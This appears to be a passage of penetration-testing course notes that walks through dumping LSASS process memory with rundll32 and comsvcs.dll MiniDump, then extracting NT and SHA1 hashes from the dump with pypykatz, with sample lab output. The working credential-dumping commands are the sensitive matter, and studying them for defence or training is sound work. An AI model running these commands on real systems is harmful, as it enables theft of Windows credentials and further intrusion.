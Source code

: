 #### Finding LSASS PID in PowerShell

```powershell
PS C:\Windows\system32> Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1260      21     4948      15396       2.56    672   0 lsass
```

#### Creating lsass.dmp using PowerShell

```powershell
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

* With this command, we are running `rundll32.exe` to call an exported function of `comsvcs.dll` which also calls the MiniDumpWriteDump (`MiniDump`) function to dump the LSASS process memory to a specified directory (`C:\lsass.dmp`)

## Using Pypykatz to Extract Credentials
* Once we have the dump file on our attack host, we can use a powerful tool called [pypykatz](https://github.com/skelsec/pypykatz) to attempt to extract credentials from the .dmp file. Pypykatz is an implementation of Mimikatz written entirely in Python

#### Running Pypykatz
* We use `lsa` in the command because LSASS is a subsystem of `local security authority`, then we specify the data source as a `minidump` file, proceeded by the path to the dump file (`/home/peter/Documents/lsass.dmp`) stored on our attack host

```sh
pypykatz lsa minidump /home/peter/Documents/lsass.dmp 

INFO:root:Parsing file /home/peter/Documents/lsass.dmp
FILE: ======== /home/peter/Documents/lsass.dmp =======
== LogonSession ==
authentication_id 1354633 (14ab89)
session_id 2
username bob
domainname DESKTOP-33E7O54
logon_server WIN-6T0C3J2V6HP
logon_time 2021-12-14T18:14:25.514306+00:00
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
	== WDIGEST [14ab89]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
	== Kerberos ==
		Username: bob
		Domain: DESKTOP-33E7O54
	== WDIGEST [14ab89]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
	== DPAPI [14ab89]==
```